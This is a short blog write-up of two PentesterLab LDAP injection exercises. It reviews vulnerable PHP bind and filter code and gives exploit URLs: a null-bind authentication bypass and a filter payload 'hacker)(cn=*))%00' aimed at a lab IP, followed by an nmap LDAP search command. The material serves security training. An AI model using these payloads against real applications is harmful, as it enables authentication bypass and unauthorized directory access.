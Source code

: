 ```yaml
---
layout: post
title: "Pentesterlab--Web for Pentester-LDAP"
date: 2016-03-22 15:56:35 -0400
comments: true
categories: [pentesterlab, LDAP, web pentest]
---
```

Web for Pentester: This exercise is a set of the most common web vulnerabilities

Difficluty: 1/5
<!--more-->


What is LDAP injection?

from OWASP:

`LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements using a local proxy. This could result in the execution of arbitrary commands such as granting permissions to unauthorized queries, and content modification inside the LDAP tree. The same advanced exploitation techniques available in SQL Injection can be similarly applied in LDAP Injection.`

more information:
[LDAP injection](https://www.owasp.org/index.php/LDAP_injection)


###Example 1

from pentesterlab:

`In this first example, you connect to a LDAP server, using your username and password. In this instance, The LDAP server does not authenticate you, since your credentials are invalid. However, some LDAP servers authorise NULL Bind: if null values are sent, the LDAP server will proceed to bind the connection, and the PHP code will think that the credentials are correct. To get the bind with 2 null values, you will need to completely remove this parameter from the query. If you keep something like username=&password= in the URL, these values will not work, since they won't be null; instead, they will be empty. `

code review:

```php example1.php
  if ($ld) {
   if (isset($_GET["username"])) {
     $user = "uid=".$_GET["username"]."ou=people,dc=pentesterlab,dc=com";
   }
   $lb = @ldap_bind($ld, $user,$_GET["password"]);

```

The developer uses function `ldap_bind` to bind parameters. I can bypass the authentication by setting null values to the parameters.

exploit:

`http://192.168.79.162/ldap/example1.php`



###Example 2

code review:

```php example2.php
  $pass = "{MD5}".base64_encode(pack("H*",md5($_GET['password'])));
  $filter = "(&(cn=".$_GET['name'].")(userPassword=".$pass."))";

```

Our goal here will be to inject inside `[INPUT1]` (the username parameter). We will need to inject:

1.	The end of the current filter using `hacker)`.
2.	An always-true condition `((cn=*) for example)`
3.	A ) to keep a valid syntax and close the first `)`
4.  A NULL BYTE `(%00)` to get rid of the end of the filter


    exploit:

    `http://192.168.79.162/ldap/example2.php?name=hacker)(cn=*))%00&password=rtrtrtr`
    

    nmap search LDAP:

    `nmap -p 389 --script ldap-search 192.168.79.162`


